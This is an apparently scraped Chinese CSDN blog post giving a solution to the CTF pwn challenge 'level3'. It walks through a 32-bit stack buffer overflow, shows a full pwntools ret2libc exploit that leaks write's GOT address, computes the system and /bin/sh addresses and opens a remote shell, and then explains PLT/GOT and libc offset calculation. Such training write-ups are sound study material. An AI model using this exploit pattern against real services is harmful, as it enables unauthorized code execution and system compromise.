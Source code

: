 <!--yml
category: 未分类
date: 2022-04-26 14:36:14
-->

# CTF|pwn栈溢出入门题level3解题思路及个人总结_一个不融化的雪人的博客-CSDN博客_ctf pwn 栈溢出

> 来源：[https://blog.csdn.net/skyattractive/article/details/106506765](https://blog.csdn.net/skyattractive/article/details/106506765)

# CTF|pwn栈溢出入门题level3解题思路及个人总结

## 解题思路

拿到题目将文件下载下来拖入ubuntu
![在这里插入图片描述](img/4fd46b6b57d9023c3360434975ac58e8.png)
发现这一次的文件比较特殊：是一个linux环境下的压缩包，自然而然想到的是解压它
![在这里插入图片描述](img/4e79c4afbba21b48eb59745f34735251.png)
通过命令行`tar -xvf level.tar` 将其解压出来 发现有两个文件：level和libc

都拖入IDA
![在这里插入图片描述](img/d69cc11fe065a43fa0391ac3ff4c4a19.png)
![在这里插入图片描述](img/ba6f1aa23b2425c41ce5142aff4f2fd2.png)
![在这里插入图片描述](img/e53dbd578be77f58e9a23c81a9362456.png)
特殊的地方在：本题没有直接给出system和bin/sh的位置，但是文件中有个write函数可以利用
我们IDA打开libc文件（关于libc文件是什么有什么 会在总结写到）
总体思路为：我们通过read函数的栈溢出漏洞写入垃圾数据填充后溢出，利用write函数返回函数write真实地址 然后通过利用函数在内存中的地址和libc文件中的偏移的差相等，来获取基址，通过基址来获取system和/bin/sh的地址，再第二次利用read写入，获得shell。

编写exp

```
from pwn import *
r=remote('220.249.52.134',47355)
elf=ELF("./level3")

writeplt=elf.plt["write"]
writegot=elf.got["write"]
func=elf.symbols["vulnerable_function"]

libc=ELF("./libc_32.so.6")
writelibc=libc.symbols["write"]
syslibc=libc.symbols["system"]
binlibc=libc.search("/bin/sh").next()

payload1='a'*0x88+'aaaa'+p32(writeplt)+p32(func)+p32(1)+p32(writegot)+p32(4)
r.recvuntil("Input:\n")
r.sendline(payload1)

writeaddr=u32(r.recv(4))

sysaddr=writeaddr-writelibc+syslibc
binaddr=writeaddr-writelibc+binlibc
payload2='a'*0x88+'bbbb'+p32(sysaddr)+p32(0xaaaa)+p32(binaddr)
r.recvuntil("Input:\n")
r.sendline(payload2)
r.interactive() 
```

![在这里插入图片描述](img/36c7d79215267770490aa6032df82a70.png)
获取flag

## 个人总结

### 有关plt表和got表（动态链接）

为了更好的用户体验和内存CPU的利用率，程序编译时会采用两种表进行辅助，一个为PLT表，一个为GOT表。
如果一个elf可执行文件需要调用定义在共享库中的任何函数，那么它就有自己的GOT和PLT。
PLT表称为过程链接表（procedure linkage table）。
GOT表称为全局偏移量表（global offset table）。
GOT表中存储真正的函数地址。
**PLT表中存储的是GOT表中的地址。**
PLT[0]是一个函数，这个函数的作用是通过GOT[1]和GOT[2]来正确绑定一个函数的正式地址到GOT表中来。
GOT[0]包含.dynamic段的地址，.dynamic段包含了动态链接器用来绑定过程地址的信息，比如符号的位置和重定位信息。
GOT[1]包含动态链接器的标识。
GOT[2]包含动态链接器的延迟绑定代码的入口点。
GOT表中正式的函数地址要从**GOT[3]开始**，也就是第四项。
被调用函数GOT相应表目中存储的最初地址为相应PLT表目中第二条指令的地址值。
函数第一次被调用后．GOT表目中的值就为函数的真正地址。
第一次调用函数时开销比较大．但是其后的每次调用都只会花费一条指令和一个间接的存储器引用。
PLT[1]对应GOT[3]，PLT[2]对应GOT[4]，依次类推。
plt表只在程序调用函数之前有用，**调用函数之后第二次执行这个函数就不会经过plt表**。
**第一次调用函数**
![在这里插入图片描述](img/58f00acd508b6618e76f6c2234e0fa6a.png)
**第二次调用函数时**
![在这里插入图片描述](img/4ab35e302533483047bc66a8255e1d24.png)

原文链接：[https://blog.csdn.net/ATFWUS/article/details/104563414](https://blog.csdn.net/ATFWUS/article/details/104563414)

### libc.so.6文件的作用

libc.so.6指CC语言标准库

在一些CTF的PWN题目中，经常可以看到题目除了提供ELF文件之外还提供了一个libc.so.6文件
如果我们可以利用目标程序的漏洞来泄漏某一个函数的地址，那么我们就可以计算出system函数的地址了，当然，被泄露地址的函数必须也定义在libc.so.6中（libc.so.6中通常也存在有/bin/bash或者/bin/sh这个字符串）。

计算system函数地址的基本原理是，在libc.so.6中，各个函数的相对地址是固定的，比如函数A相对于libc.so.6的起始地址为addr_A，函数B相对于libc.so.6的起始地址为addr_B，那么，如果我们能够泄漏进程内存空间中函数A的地址address_A，那么函数B在进程空间中的地址就可以计算出来了，为address_A + addr_B - addr_A

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正

期待与你的共同进步：）